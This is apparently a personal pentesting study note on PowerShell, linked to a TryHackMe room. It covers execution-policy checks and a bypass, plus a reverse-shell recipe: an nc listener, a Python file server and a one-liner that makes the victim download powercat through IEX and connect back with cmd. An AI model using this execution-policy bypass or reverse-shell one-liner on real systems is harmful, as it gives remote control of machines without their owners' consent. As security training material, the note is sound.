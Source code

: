 ```yaml
---
creation date: May 2nd 2023
last modified date: May 2nd 2023
aliases: [PSH - .ps1]
tags: #📕
---
```


Primary Categories: [[01 - Pentest]] - [[01 - Red Team]]
Secondary Categories:  [[02 - Weaponization]]
Links: [[Living Off The Land]] - [[Windows]] - [[Object-Oriented Language]] - [[Dynamic Language Runtime]]
Search Tag: #📕  

# [[PowerShell]]  
___

## Description:  
This is an Object-oriented programming language. It is executed by the Dynamic Language Runtime (DLR) in `.net` with some exceptions for legacy uses.

---
## Checking Execution Policy
This will tell us if we can actually run PowerShell `.ps1` files on this machine.
1. Run in CMD: `Get-ExecutionPolicy`

### Changing Execution Policy
1. Run in CMD: `Set-ExecutionPolicy -Scope CurrentUser RemoteSigned`

### Bypassing Execution Policy
1. Run in CMD: `powershell -ex bypass -File <PATH_TO_FILE>`

---
## Reverse Shell
1. Download Reverse Shell from below
2. `CD` into the Powercat file
3. Now serve the file up this time we will us a simple python server:
```bash
python -m http.server 8080
```
4. Start a listener:
```bash
nc -lvnp 1337
```
5. Now we need the victim to run the following:
```CMD
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://<LOCAL_IP>:8080/powercat.ps1');powercat -c <LOCAL_IP> -p 1337 -e cmd"
```
- This will tell the system to go to our webserver we started in step 3 and download the file. Then it will run **Powercat** feeding it the parameters to callback to our **NC** listener using CMD.

---
## Script Examples
### Hello World
```PowerShell
Write-Output "Hello World!"
```
- Save file with a `.ps1` extension and run it in CMD with `powershell -File <PATH_TO_FILE>`


___

## Resources:

| Hyperlink                                                    | Info                                |
| ------------------------------------------------------------ | ----------------------------------- |
| [THM Room](https://tryhackme.com/room/powershell)            | Not Started                         |
| [Reverse Shell](https://github.com/besimorhino/powercat.git) | Reverse Shell written in PowerShell |


Created Date: May 2nd 2023 (09:40 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
